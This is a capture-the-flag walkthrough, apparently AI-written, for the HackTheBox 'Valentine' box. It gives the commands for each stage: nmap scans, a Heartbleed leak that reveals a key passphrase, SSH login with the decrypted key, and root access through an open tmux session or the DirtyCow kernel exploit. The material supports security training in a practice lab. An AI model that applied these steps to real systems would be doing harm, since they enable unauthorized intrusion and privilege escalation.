 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

### 🔍 Recon & Enumeration

**Nmap Basic Scan:**
```bash
nmap -sC -sV -p- 10.10.10.79
```

Identified open ports:
- **80 [HTTP](HTTP.md)**: Apache/2.2.22 (Ubuntu)
- **443 (HTTPS)**: Vulnerable OpenSSL (Heartbleed, CVE-2014-0160)

**Nmap Vuln Scripts:**
```bash
nmap -p 80,443 --script vuln 10.10.10.79
```

Identified vulnerabilities:
- **Heartbleed (CVE-2014-0160)**
- **SSL POODLE (CVE-2014-3566)**
- **CCS Injection (CVE-2014-0224)**

Interesting directories:
- `/dev/`
- `/index/`

---

### 💔 Heartbleed Exploitation

Using a public Heartbleed exploit script, dump memory:

Search for base64 strings in the dump. One string found:
```bash
aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```
Decoded:
```bash
heartbleedbelievethehype
```

---

### 📁 Web Directory Discovery

Accessing `/dev/`, locate a file named `hype_key` — an encrypted private key in hexdump format.

Steps:
```bash
xxd -r hype_key > hype.key
openssl rsa -in hype.key -out decrypted.key
```
When prompted, enter password: `heartbleedbelievethehype`

---

### 🔐 SSH Access

Attempt SSH with:
```bash
chmod 600 decrypted.key
ssh -i decrypted.key hype@10.10.10.79
```
If encountering `no mutual signature supported` error, use:
```bash
ssh -oPubkeyAcceptedAlgorithms=+ssh-rsa -i decrypted.key hype@10.10.10.79
```

---

### ⬆️ Privilege Escalation

#### Method 1: Tmux Session (Preferred)
- Check for running tmux sessions as root.
- Attach to existing root session:
```bash
tmux attach
```

#### Method 2: DirtyCow Kernel Exploit
- Upload `40839.c` to target
- Compile:
```bash
gcc 40839.c -o cowroot -pthread
```
- Execute to create root user `firefart`
- Switch user:
```bash
su firefart
```

---

### 🏁 Summary
- **Initial Access:** Exploit Heartbleed to extract passphrase
- **Lateral Movement:** Decrypt private SSH key for `hype`
- **Privilege Escalation:** Attach root tmux or use DirtyCow

---

Let me know if you'd like this turned into a PDF, or if you want visual diagrams for the two privilege escalation paths!

